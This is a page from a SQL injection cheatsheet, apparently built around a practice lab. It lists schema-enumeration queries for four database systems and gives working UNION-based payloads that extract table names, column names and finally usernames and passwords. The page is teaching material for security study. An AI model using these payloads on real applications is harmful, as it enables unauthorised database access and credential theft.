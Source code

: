 #

## Database contents
*You can list the tables that exist in the database, and the columns that those tables contain.*

## `*`
> This Defines that you might have to add more columns in the code in order for code to work

| Type | String |
| --- | --- |
| Oracle   | `SELECT table_name,* FROM all_tables` <br> `SELECT column_name,* FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'` |
| Microsoft |  `SELECT table_name,* FROM information_schema.tables` <br> `SELECT column_name,* FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'` |
| PostgreSQL |  `SELECT table_name,* FROM information_schema.tables` <br> `SELECT column_name,* FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'` |
| MySQL |  `SELECT table_name,* FROM information_schema.tables` <br> `SELECT column_name,* FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'` |

 With `.tables` it returns output like the following: 
 ```sql
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  TABLE_TYPE
=====================================================
MyDatabase     dbo           Products    BASE TABLE
MyDatabase     dbo           Users       BASE TABLE
MyDatabase     dbo           Feedback    BASE TABLE
```

With `.columns` and the **table name** it returns output like the following:
```sql
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  COLUMN_NAME  DATA_TYPE
=================================================================
MyDatabase     dbo           Users       UserId       int
MyDatabase     dbo           Users       Username     varchar
MyDatabase     dbo           Users       Password     varchar
```

- Example of **PostgreSQL** printing tables. In the following code, server applies 2 columns. We replace one of those with **table_name**. 
```sql
' UNION SELECT table_name,NULL FROM information_schema.tables--
 ```

![image](https://github.com/th3knv/SQL_injection_cheatsheet/assets/76121926/5112fb40-80ba-4281-badf-31ab4289f463)

- Going deeper (**for PostgreSQL**) we can explore the content of the table. Searching up , we will find and use an interesting table name called `users_wvtyfp`
> As you can see (in the following command) server accepts 2 columns thats why i added ***NULL***

```sql
' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name = 'users_wvtyfp'--
```
![image](https://github.com/th3knv/SQL_injection_cheatsheet/assets/76121926/5fc0da1b-0814-4e6f-879d-b0702be3cf72)

Exploting this a bit more,
```sql
' UNION SELECT username_khsgkv, password_bzvrbj FROM users_wvtyfp--
```
![image](https://github.com/th3knv/SQL_injection_cheatsheet/assets/76121926/81ff21e1-defc-412d-b058-9f0a84a29965)
